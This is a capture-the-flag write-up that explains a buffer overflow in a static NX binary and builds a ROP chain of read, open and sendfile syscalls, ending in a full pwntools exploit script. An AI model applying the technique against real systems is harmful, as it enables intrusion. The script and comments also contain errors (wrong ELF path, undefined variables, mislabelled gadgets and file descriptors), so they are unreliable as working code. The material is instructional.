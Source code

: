 # Pwn - SimpleOverflow
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

We start by looking at the protections of the binary.

```sh
> checksec baby_rop
[*] './baby_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Throwing the binary into IDA, the vulnerability is straightforward.

```c
int vuln()
{
  char input[112];
  return fgets(input, 256, stdin);
}
```

If you haven't, you should read the writeup on Baby Binary. This challenge is essentially a sequel. The code and the vulnerability is the same, but the **No eXecute (NX)** protections are set. This means that we can't simply write shellcode and send it in like we did before.

In order to do get a similar outcome of reading the flag, we have to use this exploit technique known as the **Return Oriented Programming (ROP)**.

## Return Oriented Programming

From our vulnerability, we are able to overwrite the return address to redirect the flow of the program when the program attempts to return. How this works is that we put an address that we want to call at our return address, and **at the time that it calls return, the address will be at the top of the stack (pointed by RSP)** and will be popped into the instruction pointer **(RIP)**.

Previously, we would write our own assembly code that will read the flag file, however we are unable to do that now since we are unable to put our shellcode in an any executable memory trivially. There is also no single `win` function that we can call to give us the flag. As such, we will have to **reuse code snippets that already exists within the program** and chain them using a **ret** instruction in order to read the flag.

## Crafting ROP chain

### Finding Gadgets

We will write a ROP chain that does the `open("flag.txt", 0, 0)` and `sendfile(out_fd=1, in_fd=3, offset=0, count=large integer)`. What this will do is that the `open` syscall will open the `flag` file at the file descriptor `3`, and then `sendfile` will read the contents of the flag file to stdout.

Reference [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to see the syscalls that we can do and the parameters that has to be set.

> the reserved file descriptors in linux are 0, 1 and 2. 
> **stdin = 0**
> **stdout = 1**
> **stderr = 2**
> subsequently created file descriptors will be in consecutive order. thus if we open **flag**, it will have a file descriptor of 3.

In order to find our ROP gadgets in order to craft our ROP chain, we can use the `ropper` tool.

Here are some of the useful gadgets that I have found

```py
pop_rax = 0x0000000000449027 # pop rax ; ret
pop_rdx_rbx = 0x000000000047f0eb # pop rdx ; pop rbx ; ret
pop_rsi = 0x0000000000409f7e # pop rsi ; ret
pop_rdi = 0x0000000000401f0f # pop rdi ; ret
syscall = 0x0000000000414b16 # syscall ; ret
```

### Making Syscalls

#### Part 1: Read Syscall

The first syscall we want to make is to write the string `flag.txt` into a known address. If we do `vmmap` in GDB, we can see the memory pages and their corresponding permissions

```c
gef> vmmap
Start              End                Size               Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 0x0000000000000000 r-- ./baby_rop
0x0000000000401000 0x0000000000498000 0x0000000000097000 0x0000000000001000 r-x ./baby_rop  <-  $rcx, $rip
0x0000000000498000 0x00000000004c1000 0x0000000000029000 0x0000000000098000 r-- ./baby_rop
0x00000000004c1000 0x00000000004c5000 0x0000000000004000 0x00000000000c0000 r-- ./baby_rop
0x00000000004c5000 0x00000000004c8000 0x0000000000003000 0x00000000000c4000 rw- ./baby_rop  <-  $rbx, $rbp, $rsi, $r12
0x00000000004c8000 0x00000000004ef000 0x0000000000027000 0x0000000000000000 rw- [heap]<tls-th1>
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000002000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $rsp
0xffffffffff600000 0xffffffffff601000 0x0000000000001000 0x0000000000000000 --x [vsyscall]
```

As we can see `0x4c5000` is an address within our binary, and has writeable permissions. Next we will examine the memory there and find an empty-looking location to store our string. This can be **ANY** address that looks like it has nothing important. For my own purpose, I chose `0x0000004c63b0`.

Our first ROP chain does a `read(fd=0, buf=0x4c63b0, size=0x8)` syscall to write our `flag.txt` string into that address for use later on.

Following the syscall table page that I referenced earlier, we will need to set **RAX**, **RDI**, **RSI**, **RDX**.

```py
p1  = p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4c63b0)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one
```


#### Part 2: Open Syscall

```py
p2  = p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4c63b0)      # fname = 0x4c63b0 
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain
```

#### Part 3: Sendfile flag from flag.txt to stdout

```py
p3  = p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx) + p64(0)             # offset = 0
p3 += p64(syscall)                      # write flag to stdout
```

#### Final Script

```py
from pwn import *
context.binary = elf = ELF("./README.md")

pop_rax = 0x449027 # pop rax ; ret
pop_rdx_rbx = 0x47f0eb # pop rax ; ret
pop_rsi = 0x409f7e # pop rax ; ret
pop_rdi = 0x401f0f # pop rax ; ret
syscall = 0x414b16

#### Part 1: Read Syscall

p1 = b"A"*120
p1 += p64(pop_rax) + p64(0x0)                   # syscall_num = 0 (read)
p1 += p64(pop_rdi) + p64(0x0)                   # fd = stdin
p1 += p64(pop_rsi) + p64(0x4c63b0)              # buf = 0x4c63b0
p1 += p64(pop_rdx_rbx) + p64(0x8) + p64(0x0)    # size = 0x8, RBX is junk
p1 += p64(syscall)                              # read "flag.txt" into .bss
p1 += p64(elf.sym.vuln)                         # loop back to vuln for second round of ROP chain since our input is not long enough to squeeze everything into one

#### Part 2: Open Syscall

p2 = b"A"*120
p2 += p64(pop_rax) + p64(0x2)           # syscall num = 2 (open)
p2 += p64(pop_rdi) + p64(0x4c63b0)      # fname = 0x4c63b0
p2 += p64(pop_rsi) + p64(0x0)           # flags = 0 (open)
p2 += p64(pop_rdx_rbx) + p64(0x0) * 2   # mode = 0 (open)
p2 += p64(syscall)                      # open file and get new file descriptor for flag.txt
p2 += p64(elf.sym.vuln)                 # loop back to vuln for final rop chain

#### Part 3: Sendfile flag from flag.txt to stdout

p3 = b"A"*120
p3 += p64(pop_rax) + p64(40)            # syscall_num = 40 (sendfile)
p3 += p64(pop_rdi) + p64(1)             # out_fd = stdout (1)
p3 += p64(pop_rsi) + p64(3)             # in_fd = stdout (3)
p3 += p64(pop_rdx_rbx) + p64(0) * 2     # offset = 0
p3 += p64(syscall)                      # write flag to stdout

gdb.attach(p)
p.sendline(p1)
p.send(b"flag.txt")

p.sendline(p2)

p.sendline(p3)

p.interactive()
```

_note: i didn't set the last paramter to sendfile syscall, which is size. this is because as long as the size is a sufficiently large number, it does not matter. and it was too hard to find a working gadget to set r10 so i just let it be. thankfully it was a nice number of 0x80 here._
